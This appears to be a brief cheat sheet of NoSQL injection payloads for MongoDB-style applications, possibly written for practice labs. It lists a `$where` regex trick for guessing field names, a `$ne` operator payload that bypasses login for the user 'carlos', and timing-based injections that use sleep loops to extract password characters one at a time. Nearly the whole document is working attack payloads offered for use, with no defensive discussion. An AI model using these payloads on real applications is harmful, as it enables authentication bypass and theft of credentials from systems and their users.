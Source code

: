 # noSQLi injections

## Guessing field names
If we can add a `$where` to the request.
```json
"$where": "Object.keys(this)[0].match('^FUZZ.*')"
```

## Pass login
```json
{
    "username": "carlos",
    "password": {
        "$ne": "invalid"
    }
}
```

## Timing based error
```json
{
    "$where": "sleep(5000)"
}
```

```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```
    
``` 
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```